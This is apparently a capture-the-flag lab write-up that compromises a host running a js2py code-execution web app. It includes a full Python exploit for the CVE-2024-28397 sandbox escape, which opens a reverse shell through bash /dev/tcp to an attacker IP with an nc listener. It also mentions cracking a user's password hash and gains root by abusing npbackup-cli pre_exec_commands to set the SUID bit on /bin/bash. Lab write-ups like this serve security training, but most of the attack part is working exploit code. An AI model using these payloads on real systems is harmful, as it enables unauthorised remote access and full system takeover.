 ![!\[alt text\](image-1.png)](nmap.png)

first the service is running a website so browse the website for further analysis.

![!\[alt text\](image.png)](websiteJS.png)

After logged in,it is a simple website that can excute javascript program.

![!\[alt text\](image.png)](<under download param.png>)

if we run ffuf we find there is /download endpoint so download it to view what cve that it have that we can use to exploit.

![!\[alt text\](image.png)](rce.png)

CVE-2024-28397 this is the cve so browse for POC available in github [https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/README.md](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/README.md)

so edit accordingly into a suitable payload.

```python
import requests
import json

url = 'http://10.10.11.82:8000/run_code'

# Modified payload for reverse shell
payload_code = """  
// [+] command goes here:  
let cmd = "bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'";  
let hacked, bymarve, n11  
let getattr, obj  

hacked = Object.getOwnPropertyNames({})  
bymarve = hacked.__getattribute__  
n11 = bymarve("__getattribute__")  
obj = n11("__class__").__base__  
getattr = obj.__getattribute__  

function findpopen(o) {  
    let result;  
    for(let i in o.__subclasses__()) {  
        let item = o.__subclasses__()[i]  
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {  
            return item  
        }  
        if(item.__name__ != "type" && (result = findpopen(item))) {  
            return result  
        }  
    }  
}  

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()  
console.log(n11)  
n11  
"""  

payload = {"code": payload_code}
headers = {"Content-Type": "application/json"}

def exploit():
    print("[*] Sending exploit to 10.10.11.82...")
    print("[*] Make sure listener is running: nc -lvnp 4444")
    
    try:
        response = requests.post(url, data=json.dumps(payload), headers=headers)
        print(f"[+] Response: {response.text}")
        
        if "error" not in response.text.lower():
            print("[!] Exploit may have succeeded! Check your listener.")
        else:
            print("[-] Exploit failed with error")
            
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    exploit()
```


![!\[alt text\](image.png)](<hashcrack marco.png>)

here we found user marco hash to crack under .db file and then ssh it to retrieve the user flag and further privilage escalation.

![alt text](image.png)

Vulnerability Found: The npbackup-cli tool had a feature called pre_exec_commands that executes commands with root privileges during backup operations.

Exploitation: You created a configuration file with:

```bash
cat > /tmp/exec.conf << 'EOF'
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: /tmp/backup
    backup_opts:
      pre_exec_commands:
        - /bin/bash -c 'chmod 4755 /bin/bash'
      paths:
      - /home/marco/
    repo_opts:
      repo_password: test
groups:
  default_group: {}
EOF

sudo /usr/local/bin/npbackup-cli -c /tmp/exec.conf -b -f
```
Key Output: Pre-execution of command /bin/bash -c 'chmod 4755 /bin/bash' succeeded with: None

```bash
ls -la /bin/bash
Output: -rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash ✅
```

yaml
pre_exec_commands:
  - /bin/bash -c 'chmod 4755 /bin/bash'
  - Privilege Escalation: You then ran /bin/bash -p where:

The -p flag tells bash to preserve privileges when it has the SUID bit set

This gave you a root shell (bash-5.0#)
